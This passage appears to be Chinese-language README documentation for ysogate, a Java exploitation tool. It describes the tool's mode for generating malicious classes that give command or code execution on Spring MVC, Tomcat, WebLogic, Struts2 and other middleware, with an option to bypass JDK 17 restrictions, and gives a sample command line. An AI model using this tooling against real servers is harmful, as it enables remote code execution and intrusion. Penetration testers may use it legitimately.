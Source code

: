 ## Gen Mode

可以使用`-m gen`来使用gen模式，用于生成恶意类

```
[root]#~  Gen Mode Options:
 -bypass                   ByPass JDK Module
 -f,--format <arg>         Output format
 -h,--help                 Show help message
 -m,--mode <arg>           Operation mode: 'payload' or 'jndi' or 'gen'
 -name,--classname <arg>   Evil Class Name
 -s,--sink <arg>           Evil sink template
 -t,--type <arg>           Middleware type
```

示例，生成springmvc的命令执行回显，添加-bypass绕过jdk高版本限制，适用于jdk17

```
java -jar ysogate-[version]-all.jar -m gen -t springmvc -s CmdExec -name org.springframework.expression.Evil -bypass
```

以下是支持的中间件/框架以及执行模式

| 中间件/框架 | 执行模式          |
| ----------- | ----------------- |
| springmvc   | CmdExec，CodeExec |
| tomcat      | CmdExec，CodeExec |
| resin       | CmdExec，CodeExec |
| weblogic    | CmdExec，CodeExec |
| jetty       | CmdExec，CodeExec |
| websphere   | CmdExec，CodeExec |
| undertow    | CmdExec，CodeExec |
| glassfish   | CmdExec，CodeExec |
| struts2     | CmdExec，CodeExec |

